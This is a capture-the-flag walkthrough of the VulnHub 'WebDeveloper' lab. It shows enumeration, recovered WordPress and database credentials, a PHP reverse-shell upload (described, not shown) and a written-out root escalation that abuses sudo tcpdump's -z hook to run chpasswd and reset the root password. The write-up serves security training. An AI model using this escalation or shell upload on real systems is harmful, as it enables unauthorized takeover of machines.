 ```yaml
---
categories: [VulnHub]
tags: [Wordpress, Wireshark, PrivEsc]
image:
  path: /Vulnhub-Files/img/WebDeveloper/Untitled%202.png
  alt: WebDeveloper Machine 🕸️
---
```



## Description ⤵️

>    💡 A machine using the newest
<br><br>
    REMOVED
<br><br>
    ### Server, the newest
<br><br>
    REMOVED
<br><br>
    ### and containing some
<br><br>
    REMOVED
<br><br>
    ## Changelog v1 - 2018/11/05 Beta - 2018/9/22
{: .prompt-info}



### Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled.png)

```bash
IP : 192.168.56.107
```

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%201.png)

```text
Open Ports >
22	SSH
80	HTTP
```

---

## Web Enumeration ⤵️

I checked the port 80 :

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%202.png)

After Directory Bruteforcing we got this :

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%203.png)

After diging in I got this finally :

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%204.png)

```bash
Credentials ->
log = webdeveloper
pwd = Te5eQg&4sBS!Yr$)wf%(DcAd
```

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%205.png)

Now it time to upload reverse shell code and get the shell up and running :>

**With PHP reverse shell linux code I got this :**

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%206.png)

Got these credentials from wp-config.php file :

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%207.png)

```bash
Password : MasterOfTheUniverse
```

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%208.png)

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%209.png)

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%2010.png)

flag.txt :

Congratulations here is youre flag:

`cba045a5a4f26f1cd8d7be9a5c2b1b34f6c5d290`

For the root shell I changed the passwd of root to root with chpasswd command :

```bash
Command :

echo "root:root" > test.txt
COMMAND="cat /tmp/test.txt | chpasswd"
TFt=$(mktemp)
echo "$COMMAND" > $TFt
chmod +x $TFt
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TFt -Z root
```

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%2011.png)

Now the flag →

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%2012.png)

---